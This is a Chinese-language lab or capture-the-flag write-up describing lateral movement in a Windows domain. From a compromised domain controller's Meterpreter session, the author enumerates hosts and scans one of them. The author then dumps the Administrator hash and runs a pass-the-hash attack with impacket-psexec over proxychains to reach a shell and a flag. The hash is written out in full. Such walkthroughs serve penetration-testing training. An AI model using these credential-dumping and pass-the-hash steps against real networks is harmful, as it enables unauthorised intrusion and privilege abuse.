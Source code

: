 ```yaml
---
title: "EP-Win8098"
date: 2024-11-17
categories: 
  - "engineering-practice"
tags: 
  - "windows"
  - "工程实践"
---
```


## 前言

本文是在攻破`Windows Server 2016 DC`的基础上对`Windows PC 8089`进行攻击

## 信息收集

回到`WinServer 2016 DC`的`Meterpreter`上，进入shell，如果使用了代理导致进不去，请参考前面几篇文章

![](./images/image-46.png)

调整字符集，这样不会乱码

```
ipconfig /all
```

![](./images/image-47.png)

可以发现当前主机存在域

```
C:\Windows\system32>powershell  
PS C:\Windows\system32> Get-ADComputer -Filter *
```

![](./images/image-48.png)

```
C:\Windows\system32> systeminfo
```

![](./images/image-51.png)

可以看到这四台主机都在域内，而且域控是当前`meterpreter`的DC主机

对8098主机进行简单扫描，开放端口：80，135，139，445，3306，7680

![](./images/image-49.png)

其中`3306`端口我验证过了，应该是没有漏洞可以利用的，其余端口也是。

因为存在`135`、`445`端口，可以尝试内网**PTH（pass-the-hash）**攻击

在DC的`Meterpreter`里进行hashdump，拿到`Administrator`的hash

![](./images/image-50.png)

域控的权限：**域管理员**（Domain Admins）组的成员可以在域内的任何计算机上登录

## PTH攻击

这里使用kali自带的`impacket-psexec`就行

```
proxychains impacket-psexec AEROSPACE/Administrator@172.22.10.40 -hashes "aad3b435b51404eeaad3b435b51404ee:4e4b335d557d9c79bc419490672102b2"
```

![](./images/image-52.png)

可以看到成功进入到Shell，如果编码乱了就执行`chcp 65001`

![](./images/image-53.png)

并且由于具有最高权限，在Alice的目录下拿到flag03

